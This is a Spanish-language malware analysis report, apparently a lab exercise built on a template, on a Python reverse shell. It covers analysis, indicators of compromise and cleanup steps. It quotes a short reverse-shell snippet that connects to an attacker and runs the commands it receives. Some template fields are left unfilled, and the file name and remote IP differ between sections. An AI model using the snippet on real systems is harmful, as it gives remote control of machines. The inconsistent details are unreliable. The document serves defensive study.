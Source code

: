 # 🛡️ Análisis y Manejo de Malware

## 1. 📌 Descripción del Caso

**Nombre o identificación del malware:** Reverse shell en Python

**Fecha de detección:**  
29/04/2025

**Fuente o vector de infección:**  troyano.py

**Resumen del comportamiento sospechoso:**  
- Conexiones salientes no autorizadas  
- Creación de procesos desconocidos  
- Alteración de archivos del sistema  
- Persistencia en el sistema  

---

## 2. 🔍 Identificación del Malware

### 2.1 Análisis Estático

**Tipo de archivo analizado:** `.py`, `.exe`, `.dll`, etc.  
**Herramientas utilizadas:**  
- `strings`  
- `file`  

**Indicadores sospechosos encontrados:**  
- IP remota: `192.168.0.23`  
- Puerto: `4444`  
- Uso de `socket`, `subprocess`, `os`  
- Funcionalidad de reverse shell  

```python
s.connect((attacker_ip, attacker_port))
command = s.recv(1024)
output = subprocess.check_output(command, shell=True)
```
![[Pasted image 20250429143653.png]]
### 2.2 Análisis Dinámico

**Entorno de análisis:** Máquina virtual con Windows 10 / Linux

**Comportamiento durante la ejecución:**
- Establece conexión saliente TCP
- Ejecuta comandos recibidos
- Oculta actividad o borra rastros

**Logs y capturas relevantes:**
-  Captura de tráfico de red
-  Registro de procesos creados
-  Claves de registro modificadas (Windows)

---

## 3. 🧭 Clasificación del Malware

**Tipo:**
-  Reverse Shell
-  Ransomware
-  Troyano ____________

**Nivel de severidad:** Alto

**Impacto potencial:**
- Pérdida de confidencialidad
- Control remoto del sistema
- Compromiso total de la máquina
![[Pasted image 20250429141305.png]]

---

## 4. 🛰️ Detección y Contención

### 4.1 Indicadores de Compromiso (IoCs)

- Archivo sospechoso: `troyan.py`
- Dirección IP remota: `192.168.40.41`
- Hash SHA256: 244f3f88d49c8097fcdd062f02e0955fd6660fff6c4704cc0ea006527f0d1bcf

### 4.2 Herramientas de detección

-  VirusTotal
-  Wireshark
-  nmap
![[Pasted image 20250429153358.png]]

![[Pasted image 20250429153738.png]]
---

## 5. 🧹 Limpieza y Remediación

**Pasos realizados:**
1. Eliminar archivo malicioso
2. Matar procesos activos
3. Revocar persistencia (inicio automático, claves de registro, servicios)
4. Cambiar credenciales comprometidas
5. Aislar el host de la red
6. Reinstalación del sistema (si es necesario)

**Estado del sistema tras limpieza:**
-  Limpio
-  En observación
-  Requiere formateo

---

## 6. 📝 Conclusiones

- El archivo analizado era un reverse shell que permitía control remoto del sistema afectado.
- Se identificó el comportamiento, se capturaron indicadores y se eliminaron los vectores de persistencia.
- Se recomienda mejorar las medidas de seguridad preventiva, como detección temprana, segmentación de red y entrenamiento en phishing.

---